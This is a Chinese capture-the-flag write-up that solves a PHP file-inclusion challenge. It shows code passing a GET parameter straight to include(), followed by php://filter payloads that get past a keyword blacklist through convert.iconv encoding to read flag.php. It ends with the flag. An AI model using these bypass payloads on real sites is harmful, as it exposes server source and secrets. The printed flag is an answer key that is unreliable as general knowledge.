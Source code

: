 # 题目名称-文件包含

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=5577c1bc-1619-11ed-9802-fa163e4fa66d)

新手区怎么了？不妨碍我做不出来。

网页内容就是没有废话的文件包含。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

有个check.php进行过滤，但是不知道脚本内容，直接冲常用伪协议试试。

- http://61.147.171.105:63483/?filename=php://filter/read=convert.base64-encode/resource=flag.php
  > do not hack!

提示do not hack，看来被过滤了。试出来过滤黑名单是read。然后我就不懂了，我以为伪协议读取文件时必须带read，否则无法读取。结果网上查的时候有篇[文章](https://mayi077.gitee.io/2020/08/09/phpfilter%E4%BC%AA%E5%8D%8F%E8%AE%AE%E8%AF%BB%E5%8F%96%E6%BA%90%E7%A0%81/)里提到“没有以read= 或 write= 作为前缀的筛选器会视情况应用于写或读”。原来这么智能啊，把read删掉试试。

- http://61.147.171.105:63483/?filename=php://filter//convert.base64-encode/resource=flag.php
  > do not hack!

还有别的东西被过滤了。测出来黑名单词是base，quoted等。彻底不会了，不过上面那篇文章往下看会发现一个叫convert.iconv.*的过滤器。试试吧，结果试了几个编码方式都没用。

- http://61.147.171.105:63483/?filename=php://filter//convert.iconv.UCS-4*/resource=flag.php

仔细看了看，发现我看错格式了……

- convert.iconv.\<input-encoding\>.\<output-encoding\>

要两个编码。组合就完事了，最后发现这个可以。

- http://61.147.171.105:63483/?filename=php://filter//convert.iconv.UTF-7.UCS-4*/resource=flag.php

## Flag
  > cyberpeace{6ad0f0e2581c8e8f8932e75d00c257cf}